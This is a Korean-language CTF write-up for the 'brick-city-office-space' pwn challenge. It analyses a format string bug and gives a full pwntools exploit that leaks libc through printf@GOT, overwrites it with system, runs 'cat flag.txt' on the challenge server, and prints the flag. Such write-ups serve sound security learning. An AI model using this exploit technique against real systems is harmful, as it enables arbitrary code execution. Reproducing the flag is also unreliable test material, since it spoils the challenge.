


# 문제명
brick-city-office-space
## 문제 설명

Help design the office space for Brick City's new skyscraper! read flag.txt for design specifications



- Protections:
    - `No RELRO`
    - `No canary`
    - `NX enabled`
    - `No PIE`

-주어진 파일:
    - `BrickCityOfficeSpace`
    - `libc.so.6`
    - `ld-linux.so.2`
    - `flag.txt`

## 풀이


### 분석

1. fgets 로 input을 받는다. 
2. printf(format) 이 존재함을 확인하였다.

AAAA.%x.%x.%x.%x.%x.%x.%x... 입력하여 `41414141` 입령 위치확인.
-> AAAA.250.f2f3e620.f2f3eda0.`41414141`...

4번째 인자로 받는 것을 확인.
따라서 입력 앞에 `printf@GOT(0x0804bbb0)`를 넣고 `%4$s`를 사용하면 GOT에 저장된 `printf`의 실제 libc 주소를 leak할 수 있다.



이 값에서 `libc.so.6`의 printf 오프셋 `0x57a90`을 빼면 libc base가 맞게 계산된다.
`system` 오프셋 `0x48170`을 더해 `system` 주소를 구한다.
%hn 두 번으로 printf@GOT를 system 주소로 덮는다.


### 취약점

포멧 스트링 버그
-> 사용자가 직접 포멧 스트링을 입력할 수 있을때, 레지스터와 스택을 읽고, 임의 주소 쓰기가 가능하다.

### 익스플로잇

1. printf@GOT 로 printf@libc leak.
2. system, printf 의 offset 계산.
3. printf@GOT 의 값을 system으로 덮어쓴다.
4. 쉘커맨드로 flag 유출.

```python
#!/usr/bin/env python3
from pwn import *

context.arch = "i386"
p = remote("brick-city-office-space.pwn.ctf.umasscybersec.org", 45001)

printf_GOT = 0x0804BBB0
printf_OFF = 0x57A90
system_OFF = 0x48170


def fmt_write(addr, value):
    payload = p32(addr) + p32(addr + 2)
    writes = [
        (value & 0xFFFF, 4),
        ((value >> 16) & 0xFFFF, 5),
    ]
    n = 8

    for half_value, index in sorted(writes):
        need = (half_value - n) % 0x10000
        if need:
            payload += f"%{need}c".encode()
        payload += f"%{index}$hn".encode()
        n = half_value

    return payload


p.recvuntil(b"BrickCityOfficeSpace> ")
p.sendline(p32(printf_GOT) + b"%4$sEND")
# printf_GOT 의 주소를 읽는다. 
data = p.recvuntil(b"Would you like to redesign? (y/n)\n")

start = data.find(p32(printf_GOT)) + 4
end = data.find(b"END", start) 
printf_addr = u32(data[start:end][:4])
# printf의 주소를 얻었다. 
system_addr = printf_addr - printf_OFF + system_OFF


p.sendline(b"y")
p.recvuntil(b"BrickCityOfficeSpace> ")
p.sendline(fmt_write(printf_GOT, system_addr))
p.recvuntil(b"Would you like to redesign? (y/n)\n")

p.sendline(b"y")
p.recvuntil(b"BrickCityOfficeSpace> ")
# p.sendline(b"ls -al")
p.sendline(b"cat flag.txt")
print(p.recvuntil(b"Would you like to redesign? (y/n)\n").decode("latin-1", errors="ignore"))

p.close()
```

## 플래그

```
UMASS{th3-f0rm4t_15-0ff-th3-ch4rt5}
```

## 배운 점

왜 %4$s가 되는가?
    - 입력 앞에 넣은 p32(printf_got)가 4번째 인자로 해석됨
    - %4$s는 그 포인터를 따라가서 GOT 내용, 즉 `printf 실제 주소를 읽음`